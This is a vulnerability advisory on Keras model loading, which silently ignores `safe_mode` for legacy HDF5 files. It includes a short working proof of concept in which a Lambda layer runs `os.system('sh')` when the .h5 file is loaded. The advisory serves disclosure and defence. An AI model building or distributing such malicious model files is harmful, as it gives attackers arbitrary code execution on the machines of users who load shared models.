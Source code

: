 ## Summary

When a model in the legacy format HDF5 (`.h5` or `.hdf5`) is loaded using the Keras `Model.load_model` method, the `safe_mode` setting is **silently** ignored without any warning or error. This allows an attacker to execute arbitrary code on the victim’s machine with the same privileges as the Keras application, even when `safe_mode` is enabled. The attack works regardless of the other parameters passed to `load_model` and does not require any sophisticated technique—the hardening on the content of `Lambda` layers is just not checked when HDF5 files are loaded.


## Details
According to the official Keras documentation, `safe_mode` is defined as:

```
safe_mode: Boolean, whether to disallow unsafe lambda deserialization. When safe_mode=False, loading an object has the potential to trigger arbitrary code execution. This argument is only applicable to the Keras v3 model format. Defaults to True.
```
As described, the `safe_mode` option applies only to `.keras` (v3) models. In practice, this means there is no intended ways to restrict the content of `Lambda` layers in models stored in the HDF5 format, which can therefore contain arbitrary serialized code.

However, HDF5 files can still be loaded seamlessly using `load_model` with `safe_mode=True`, **without** any warning or error, even though the hardening provided by safe mode cannot be applied to this file format. Whether this implementation choice was intentional or not, silently ignoring a security-related parameter is misleading for users who are unaware of the internal Keras behavior, creating a **false sense of security** due to `safe_mode`. At a minimum, if `safe_mode` cannot be enforced for a given file format, an explicit error should be raised to alert the user.

This issue is particularly critical given the widespread use of the HDF5 format, despite the introduction of newer formats.

Examining the implementation of `load_model` in `keras/src/saving/saving_api.py`, we can see that the `safe_mode` parameter is completely ignored when loading HDF5 files. Here's the relevant snippet:

```python
def load_model(filepath, custom_objects=None, compile=True, safe_mode=True):
    is_keras_zip = ...
    is_keras_dir = ...
    is_hf = ...

    # Support for remote zip files
    if (
        file_utils.is_remote_path(filepath)
        and not file_utils.isdir(filepath)
        and not is_keras_zip
        and not is_hf
    ):
        ...

    if is_keras_zip or is_keras_dir or is_hf:
        ...

    if str(filepath).endswith((".h5", ".hdf5")):
        return legacy_h5_format.load_model_from_hdf5(
            filepath, custom_objects=custom_objects, compile=compile
        )
```

As shown, when the file extension is `.h5` or `.hdf5`, the method delegates to `legacy_h5_format.load_model_from_hdf5`, which does not use or check the `safe_mode` parameter at all.

## Exploit

From the attacker’s perspective, creating a malicious HDF5 model which rely on `Lambda` layers to perform arbitrary code execution is as simple as the following:

```python
import keras

f = lambda x: (
    exec("import os; os.system('sh')"),
    x,
)

model = keras.Sequential()
model.add(keras.layers.Input(shape=(1,)))
model.add(keras.layers.Lambda(f))
model.compile()

keras.saving.save_model(model, "./provola.h5")
```

From the victim’s side, triggering code execution is just as simple:

```python
import keras

model = keras.models.load_model("./provola.h5", safe_mode=True)
```

That’s all. The exploit occurs **during model loading**, with no further interaction required. The parameters passed to the method do not mitigate of influence the attack in any way.


As expected, the attacker can substitute the `exec(...)` call with any payload. Whatever command is used will execute with the same permissions as the Keras application.

### Proof of Concept (PoC)
The complete PoC is available.

The folder contains:
* `generate.py` – generates a malicious `HDF5` file (`poc.h5`)
* `poc_load.py` – demonstrates arbitrary code execution during model loading


## Attack scenario

The attacker may distribute a malicious `.h5`/`.hdf5` model on platforms such as Hugging Face or through other channels. The victim only needs to load the model—*even with* `safe_mode=True` that would give the illusion of security. No inference or further action is required, making the threat particularly stealthy and dangerous.

Once the model is loaded, the attacker gains the ability to execute arbitrary code on the victim’s machine with the same privileges as the Keras process. The provided proof-of-concept demonstrates a simple shell spawn, but any payload could be delivered this way.